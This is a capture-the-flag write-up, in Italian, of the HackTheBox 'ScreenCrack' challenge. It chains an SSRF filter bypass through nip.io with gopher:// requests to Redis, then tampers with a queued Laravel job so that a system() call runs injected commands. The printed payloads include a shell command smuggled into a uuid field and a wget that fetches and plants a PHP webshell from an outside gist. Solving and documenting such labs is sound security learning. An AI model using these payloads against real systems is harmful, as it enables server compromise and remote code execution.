








# ScreenCrack HTB challenge WRITEUP
[Exploit.py](exploit.py) Made by: [Gianlush](https://github.com/Gianlush/), [simonecris](https://github.com/simonecris)

## step 1: tentativo di SSRF
Non si può accedere banalmente all'indirizzo localhost poichè il backend fa un controllo e filtra l'url che viene inserito nel form. Quindi il primo passo è stato cercare un metodo per bypassare quei filtri. La soluzione trovata è stata utilizzare un dominio particolare (nip.io) che consente di personalizzare la risoluzione dns di qualsiasi url.

```payload = "http://127-0-0-1.nip.io"```



## step 2: ricerca servizi vulnerabili

Runnando il docker della challenge, ed avviando una shell è possibile notare la presenza di un altro servizio sulla porta 6379, cioè REDIS (un DB cache-based). Tuttavia il payload precedente non funzionava per accedere a questo servizio quindi cercando online soluzioni per effettuare ssrf abbiamo notato che è possibile comunicarci usando url scheme differenti (quali dict:// o gopher://).

```payload = dict://127-0-0-1.nip.io/info```



Questo payload consente di eseguire comandi sul client redis, utilizzando i ":" come spazio (scoperto per tentativi).

### step 2.5: redis rabbit hole

Seguendo la documentazione di Redis e smanettando con i suoi comandi abbiamo tentato di eseguire un qualche tipo di code injection, la quale sarebbe stato possibile se non fosse per la presenza di una flag (enable-protected-config) che rende il redis.conf immutabile e che abbiamo cercato di bypassare (inutilmente).



## step 3: follow the input

Dopo aver rinunciato a quella strada abbiamo deciso di seguire meglio il flusso del nostro input, notando che nel file [FileQueue.php](challenge/app/Message/FileQueue.php) è presente una chiamata a system() che potrebbe essere un possibile punto di attacco qualora fossimo in grado di manipolare la variabile $filepath. Questa strada, inzialmente scartata poichè sembrava impossibile manipolare il valore della variabile, è diventanta nuovamente possibile una volta scoperta la console Redis, ed in particolare un key al suo interno che memorizza tutti i file caricati.



Nel frattempo ci siamo spostati dentro al docker per utilizzare redis in maniera più agevole e capirci meglio, ed è qui che abbiamo visualizzato il contenuto delle flag sopracitate, che sarebbe stato altrimenti impossibile tramite web utilizzando il protocollo dict, visto che la key conteneva i ":" che sarebbe invece stati interpretati come spazi:




Manipolando quei dati, e facendoci stampare di volta in volta l'url dato in pasto a curl nel file SiteShotService.php ed il pathfile nel file FileQueue.php abbiamo visto che è possibile modificare l'esecuzione del comando system("rm "filepath).

In particolare, modificando il campo uuid ed inserendo del codice, una volta trascorsi i 600 secondi del [job-runner.sh](config/job-runner.sh) la queue viene svuotata, il file eliminato e quindi il nostro codice eseguito.
### PoC:
```payload = "uuid\\\";s:51:\\\"d9b86d9c-cf9f-40bf-a641-a0b76e432c2a;touch funziona\\\";```
Utilizzando il comando lset di Redis per modificare l'entry come detto si ottiene il risultato desiderato:



## step 4: un passo indietro rispetto a dict://
A questo punto sono sorti i problemi con il il protocollo dict poichè questo richiedeva l'uso dei ":" come space, cosa che andava in contrasto con i ":" usati da redis. Senza trovare un modo di bypassare il problema abbiamo riprovato l'utilizzo di gopher. Questo infatti sembrava funzionare bene con curl da terminale:



Inoltre utilizza il %20 come spazio. L'unico problema è che, poichè la connessione non termina, quando usato tramite la webapp va in timeout. Questo ci ha fatto credere inizialmente che non funzionasse, ma in realtà anche senza ricevere una risposta, i nostri comandi passano e vengono eseguiti.

Dopo vari tentativi abbiamo capito che la preparazione del payload per Gopher richiedeva semplicemente un url encoding su tutto il payload. Per estrarre la flag abbiamo usato una php shell reperibile tramite wget, da qui il seguente payload (per esteso):

```payload = gopher://127-0-0-1.nip.io:6379/_LSET laravel_database_queues:default 0 "{\"uuid\":\"733ba127-c15e-46b7-baef-d511b91af345\",\"displayName\":\"App\\\\Jobs\\\\rmFile\",\"job\":\"Illuminate\\\\Queue\\\\CallQueuedHandler@call\",\"maxTries\":null,\"maxExceptions\":null,\"failOnTimeout\":false,\"backoff\":null,\"timeout\":null,\"retryUntil\":null,\"data\":{\"commandName\":\"App\\\\Jobs\\\\rmFile\",\"command\":\"O:15:\\\"App\\\\Jobs\\\\rmFile\\\":1:{s:9:\\\"fileQueue\\\";O:21:\\\"App\\\\Message\\\\FileQueue\\\":3:{s:8:\\\"filePath\\\";s:45:\\\"\\/src\\/09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220.txt\\\";s:4:\\\"uuid\\\";s:213:\\\"09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220;cd public;wget https:\\/\\/gist.githubusercontent.com\\/joswr1ght\\/22f40787de19d80d110b37fb79ac3985\\/raw\\/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4\\/easy-simple-php-webshell.php;touch asd\\\";s:3:\\\"ext\\\";s:3:\\\"txt\\\";}}\"},\"id\":\"4ARs2xRDfUDqwEf3x5hneSeeRA0zkjaL\",\"attempts\":0}"```

 Una volta URL-ENCODATO, inviato ed attesi in 10min che il processo job-runner.sh svuotasse la queue ed eseguisse il nostro comando, abbiamo ottenuto una shellphp e estratto la flag tramite cat.

 
